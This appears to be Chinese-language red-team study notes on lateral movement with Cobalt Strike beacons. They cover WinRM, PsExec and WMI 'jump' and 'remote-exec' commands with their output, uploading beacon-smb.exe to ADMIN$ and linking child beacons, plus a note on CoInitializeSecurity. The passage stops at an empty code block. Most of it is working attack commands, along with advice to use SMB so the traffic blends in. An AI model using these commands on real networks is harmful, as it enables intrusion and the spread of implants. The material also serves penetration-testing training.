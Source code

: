 查询靶机架构
```
beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit
```

```winrm```32位横向使用


```winrm64```64位横向使用



推荐使用 SMB 协议横向。SMB 协议在 Windows 环境中广泛使用，因此横向的时候可以和smb本身的流量融合在一起。
```
beacon> jump winrm64 srv-1 smb
[+] established link to child beacon: 10.10.17.25
```


WinRM返回的是一个高完整性的beacon，可以和远程计算机建立交互式的shell


# PsExec

psexec和psexec64是唯一执行```jump```命令后可以自动执行进程迁移的方法（默认为rundll32.exe），这样做是为了自动从磁盘中删除上传的服务二进制文件。

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25
```


# Windows Management Instrumentation (WMI)

WMI 不是jump命令的一部分，但它是remote-exec命令的一部分

```
beacon> cd \\srv-1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
Started process 536 on srv-1
```

上面命令执行完以后，该进程已经在srv-1运行，需要用```link```命令连接

```
beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```

# The Curious Case of CoInitializeSecurity

CoInitializeSecurity的特殊案例

Beacon对WMI的内部实现使用一个[Beacon Object File](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm)，使用[beacon_inline_execute](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute) Aggressor函数执行。当BOF被执行时，[CoInitializeSecurity](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity) COM对象可以被调用，它被用来为当前进程设置安全上下文。根据微软的文档，每个进程只能调用一次。

不幸的后果是，如果你让CoInitializeSecurity在 "用户A "的上下文中被调用，那么未来的BOF可能无法在Beacon进程的生命周期中继承一个不同的安全上下文（"用户B"）。

这方面的一个例子是这样的。
```